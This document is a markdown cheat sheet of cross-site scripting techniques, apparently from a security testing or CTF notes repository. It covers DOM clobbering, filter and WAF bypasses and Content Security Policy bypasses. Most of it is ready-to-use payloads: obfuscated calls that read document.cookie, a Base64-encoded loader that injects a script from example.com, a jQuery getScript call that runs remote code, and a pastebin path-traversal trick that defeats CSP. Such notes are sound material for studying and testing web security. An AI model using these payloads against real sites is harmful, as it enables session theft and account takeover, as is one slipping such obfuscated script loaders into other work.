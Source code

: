 # XSS

## Awesome Cheat Sheets

* [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [PortSwigger XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Awesome Tools

* [XSS'OR - Hack with Javascript](http://xssor.io/#ende) - swisskey for payload editing

## DOM Based XSS

Useful references:

* [Introduction to the DOM](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model/Introduction),
* [DOM Tree](https://developer.mozilla.org/en-US/docs/Web/API/Document_object_model/Using_the_W3C_DOM_Level_1_Core),
* [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window).

### DOM Clobbering

DOM Clobbering allows defining certain variables in the window’s context. For example, an HTML element

```markup
<p id="CONFIG"></p>
```

creates a reference to itself under a `window.CONFIG` variable if and only if there were no other variables declared with the same name.

References:

* [Clobbering the clobbered — Advanced DOM Clobbering](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)

## Bypass

### Filter

#### Bypass using JS-Alpha

[JS-Alpha](https://github.com/terjanq/JS-Alpha) converts any javascript code into a code that only consists of `/[a-z().]/` characters. Example:

```text
with(escape())with(eval.bind)eval(unescape(match().concat(strike().big().link().length).concat(escape(escape.name.length).concat(escape(...call.name))).concat(escape(escape(link())).length).concat(link().blink().link().length).concat(link().link().strike().length).concat(name.link().length).concat(big().big().length).concat(link().length).concat(link().length).concat(strike().big().length).concat(fixed().big().length).join(unescape(...escape(this)))))
```

The generated code should work on all platforms. It uses only standardized functions.

#### Bypass using JS global variables

Global variable example:

```javascript
window["document"]["cookie"]
```

Call `alert` from `window` example:

```javascript
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);
```

Techniques to bypass WAF rules:

```javascript
// Concatenation sequences
self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);

// Hex escape sequences
// alert(document.cookie)
self["\x61\x6c\x65\x72\x74"](
    self["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]
        ["\x63\x6f\x6f\x6b\x69\x65"]
);

// Eval and Base64 encoded strings
self["\x65\x76\x61\x6c"](
  self["\x61\x74\x6f\x62"](
    "dmFyIGhlYWQgPSBkb2N1bWVudC5nZXRFbGVtZW50\
    c0J5VGFnTmFtZSgnaGVhZCcpLml0ZW0oMCk7dmFyI\
    HNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbn\
    QoJ3NjcmlwdCcpO3NjcmlwdC5zZXRBdHRyaWJ1dGU\
    oJ3R5cGUnLCAndGV4dC9qYXZhc2NyaXB0Jyk7c2Ny\
    aXB0LnNldEF0dHJpYnV0ZSgnc3JjJywgJ2h0dHA6L\
    y9leGFtcGxlLmNvbS9teS5qcycpO2hlYWQuYXBwZW\
    5kQ2hpbGQoc2NyaXB0KTs="
  )
);

// jQuery
self["$"]["globalEval"]("alert(1)");
self["\x24"]["\x67\x6c\x6f\x62\x61\x6c\x45\x76\x61\x6c"]("\x61\x6c\x65\x72\x74\x28\x31\x29");
// getScript loads a JavaScript file from the server using a GET HTTP request, then execute it.
self["$"]["getScript"]("https://example.com/my.js");

// Iteration and Object.keys
Object.keys(self)[5]; // "alert"
self[Object.keys(self)[5]]("foo"); // alert("foo")
```

References:

* [Bypass XSS filters using JavaScript global variables](https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/amp/?__twitter_impression=true)

#### Bypass using JSFuck

[JSFuck](http://www.jsfuck.com/) is an esoteric and educational programming style based on the atomic parts of JS. It uses only six different characters to write and execute code. But the payload is very long. You can reduce the payload using the methods described in the article [Bypass Uppercase filters like a PRO \(XSS Advanced Methods\)](https://medium.com/@Master_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce).

#### Bypass using a little known JS comment style

A little known JS comment style [SingleLineHTMLOpenComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-SingleLineHTMLOpenComment) and [HTMLCloseComment](https://www.ecma-international.org/ecma-262/10.0/index.html#prod-annexB-HTMLCloseComment) in ECMA specification. The following is valid JS comment syntax:

```javascript
-->valid_comment_style
```

References:

* [HITCON CTF 2019 - Bounty Pl33z Task](https://github.com/orangetw/My-CTF-Web-Challenges#bounty-pl33z)
* [HITCON CTF 2019 - Bounty Pl33z Writeup by balsn](https://balsn.tw/ctf_writeup/20191012-hitconctfquals/#bounty-pl33z)
* [Challenge in Cure53 XSS wiki \(the idea for the Bounty Pl33z\)](https://github.com/cure53/XSSChallengeWiki/wiki/prompt.ml#level-8)

### CSP

#### Bypass using encode '/' by [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)

If CSP policy points to a dir and you use `%2f` to encode `'/'`, it is still considered to be inside the dir. All browsers seem to agree on that. This leads to a possible bypass, by using `'%2f..%2f'` if server decodes it, example:

```markup
<meta http-equiv=Content-Security-Policy content="script-src pastebin.com/XYZ/">
<!-- this will execute -->
<script src="https://pastebin.com/XYZ%2f..%2fraw/b0Rajxqk"></script>
```

#### Bypass using JSONP

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.

